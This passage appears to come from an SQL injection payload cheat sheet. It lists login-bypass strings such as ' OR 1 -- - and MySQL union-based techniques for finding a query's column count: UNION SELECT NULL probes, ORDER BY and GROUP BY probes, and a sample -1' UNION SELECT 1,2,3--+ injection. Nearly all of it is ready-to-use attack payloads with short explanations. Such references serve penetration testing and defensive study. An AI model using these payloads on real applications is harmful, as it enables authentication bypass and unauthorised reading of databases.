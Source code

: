 * **Login**: Query like `SELECT * FROM Users WHERE username = 'FUZZ1' AND password = 'FUZZ2';`
    ```ps1
    ' OR '1
    ' OR 1 -- -
    " OR "" = "
    " OR 1 = 1 -- -
    '='
    'LIKE'
    '=0--+
    ```


## MYSQL Union Based

### Detect Columns Number

To successfully perform a union-based SQL injection, an attacker needs to know the number of columns in the original query.


#### Iterative NULL Method

Systematically increase the number of columns in the `UNION SELECT` statement until the payload executes without errors or produces a visible change. Each iteration checks the compatibility of the column count.

```sql
UNION SELECT NULL;--
UNION SELECT NULL, NULL;-- 
UNION SELECT NULL, NULL, NULL;-- 
```


#### ORDER BY Method

Keep incrementing the number until you get a `False` response. Even though `GROUP BY` and `ORDER BY` have different functionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

| ORDER BY        | GROUP BY        | Result |
| --------------- | --------------- | ------ |
| `ORDER BY 1--+` | `GROUP BY 1--+` | True   |
| `ORDER BY 2--+` | `GROUP BY 2--+` | True   |
| `ORDER BY 3--+` | `GROUP BY 3--+` | True   |
| `ORDER BY 4--+` | `GROUP BY 4--+` | False  |

Since the result is false for `ORDER BY 4`, it means the SQL query is only having 3 columns.
In the `UNION` based SQL injection, you can `SELECT` arbitrary data to display on the page: `-1' UNION SELECT 1,2,3--+`.

Similar to the previous method, we can check the number of columns with one request if error showing is enabled.
